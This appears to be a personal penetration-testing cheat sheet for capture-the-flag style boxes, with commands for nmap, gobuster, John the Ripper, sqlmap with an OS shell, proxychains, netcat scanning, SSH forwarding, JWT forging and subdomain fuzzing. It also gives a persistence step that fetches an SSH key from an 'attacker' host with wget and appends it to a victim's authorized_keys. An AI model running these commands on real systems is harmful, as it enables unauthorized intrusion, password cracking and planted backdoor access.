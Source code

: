 Commands for tools used 
---

## nmap

```
scan and show OS
---
nmap <addr> -sV

Don't ping (Firewall)
---
nmap <addr> -Pn

UDP
---
nmap <addr> -sU
```


## Gobuster
for enumerating website paths

```
finding dirs
---
gobuster dir -u <addr> -w /usr/share/wordlist/dirb/common.txt


searching for specific file type + dirs
---
gobuster dir -x php -u 10.129.255.70 -w /usr/share/wordlists/dirb/common.txt
```


## John the ripper

```
cracking a zipfile
---
zip2john <file.zip> 2>/dev/null | tee <file.hash>

normal hash cracking
---
john <file.hash> --wordlist=/usr/share/wordlists/rockyou.txt --format=<format>

mangle variations of a known password
---
john key.hash --rules <known passwords> --wordlist=/usr/share/wordlists/rockyou.txt
```


## sqlmap

```
sqlmap -u "<url>" --cookie="<key=values>" --os-shell --user-agent "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" 
```

## cadaver

```
For WebDAV applications
---
cadaver <website>
```

## Proxy chains

```
adding a proxy
---

edit /etc/proxychains4.conf 

examples:
http <ip> <port>
socks5 <victim service> <victim port> <user> <password>

$ proxychains ssh user@<ip>
```

## netcat enumeration

```
finding open ports internally
---
nc -zv 192.168.0.1 1-65535 2>&1 | grep -v "refused"
```


## tftp

allows putting/getting of files without specifying permission

check for `/etc/default/tftpd-hpa`


## SSH port forwarding

append your pub key to `/home/user/.ssh/authorized_keys`

On your attacker machine:

`ssh -L <local port>:<victim service>:<victim port> <victim>@<ip>`

OR using dynamic forwarding for attacks

`ssh -D <local port> <victim>@<ip>`

## Adding your SSH to the victim
```
Append your public to the victim's ~/.ssh/authorized_keys
---
On attacker:
ssh-keygen

On victim:
wget http://attacker/id_rsa.pub
cat id_rsa.pub >> ~/.ssh/authorized_keys
```

## Getting Crash Data

```
While program is running, kill it with
---
kill -BUS <pid>

Get the data from the crash log
---
apport-unpack /var/crash/_opt_count.1000.crash /tmp/crashed
strings /tmp/crashed/CoreDump
```

## JWT generation

```
pip install pyjwt

>>> import jwt
>>> encoded_jwt = jwt.encode({"some": "payload"}, "secret", algorithm="HS256")
```

## SUBDOMAIN ENUM

```
wfuzz -w SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.nunchucks.htb"  -u 'https://nunchucks.htb' --hh <word size>
```

## MySQL

run one liner mysqls
```
mysql -u <user> <db> --password=<pass> -e 'select * from users;'
```

## Searchsploit

Searches for exploits for specific versions

Can filter by date too

```
searchsploit -j <name of software> | jq .
```

